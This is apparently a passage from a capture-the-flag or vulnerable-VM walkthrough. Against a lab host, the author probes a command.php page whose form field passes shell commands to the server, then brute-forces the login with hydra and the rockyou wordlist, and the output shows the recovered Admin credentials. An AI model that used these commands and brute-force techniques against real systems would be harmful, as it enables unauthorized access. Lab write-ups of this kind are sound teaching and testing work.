 Great, a command.php page. Let's see what we got here:  
  
root@kali:~# curl -H 'Cookie: PHPSESSID=mf6fjsv8ve3ln8jchi3p0ue3i7' 'hxxp://192.168.111.6/command.php'  
>...  
>\<form method="post" action="command.php"\>  
>	\<strong\>Run Command:\</strong\>\<br\>  
>	\<input type="radio" name="radio" value="ls -l" checked="checked"\>List Files\<br /\>  
>	\<input type="radio" name="radio" value="du -h"\>Disk Usage\<br /\>  
>	\<input type="radio" name="radio" value="df -h"\>Disk Free\<br /\>  
>	\<p\>  
>	\<input type="submit" name="submit" value="Run"\>  
>\</form\>  
>You need to be logged in to use this system.<p\><a href='index.php'\>Click to Log In Again</a\>	  
>...  
  
Wow, a radio parameter with a command to run in the server...  
  
root@kali:~# curl -H 'Cookie: PHPSESSID=mf6fjsv8ve3ln8jchi3p0ue3i7' -d 'radio=ls+-l&submit=Run' 'hxxp://192.168.111.6/command.php'  
>...  
>\<form method="post" action="command.php"\>  
>	\<strong\>Run Command:\</strong\>\<br\>  
>	\<input type="radio" name="radio" value="ls -l" checked="checked"\>List Files\<br /\>  
>	\<input type="radio" name="radio" value="du -h"\>Disk Usage\<br /\>  
>	\<input type="radio" name="radio" value="df -h"\>Disk Free\<br /\>  
>	\<p\>  
>	\<input type="submit" name="submit" value="Run"\>  
>\</form\>  
>You need to be logged in to use this system.<p\><a href='index.php'\>Click to Log In Again</a\>	  
>...  
  
The same result...Here we can hope that the command is being executed but the result won't show if you are not logged in. Sounded great, but it was not the case. So, we are left with a bruteforce to the login panel... Let's run hydra:  
  
root@kali:~# hydra -L users.txt -P /usr/share/wordlists/rockyou.txt 192.168.111.6 http-post-form "/login.php:username=^USER^&password=^PASS^:F=login.php:H=Cookie\: PHPSESSID=mf6fjsv8ve3ln8jchi3p0ue3i7" -e nsr -u    
>Hydra v8.8 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.  
>  
>Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2019-04-18 00:39:56  
>[INFORMATION] escape sequence \: detected in module option, no parameter verification is performed.  
>[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore  
>[DATA] max 16 tasks per 1 server, overall 16 tasks, 86066412 login tries (l:6/p:14344402), ~5379151 tries per task  
>[DATA] attacking http-post-form://192.168.111.6:80/login.php:username=^USER^&password=^PASS^:F=login.php:H=Cookie\: PHPSESSID=mf6fjsv8ve3ln8jchi3p0ue3i7  
>[STATUS] 1136.00 tries/min, 1136 tries in 00:01h, 86065276 to do in 1262:42h, 16 active  
>[80][http-post-form] host: 192.168.111.6   login: Admin   password: happy  
  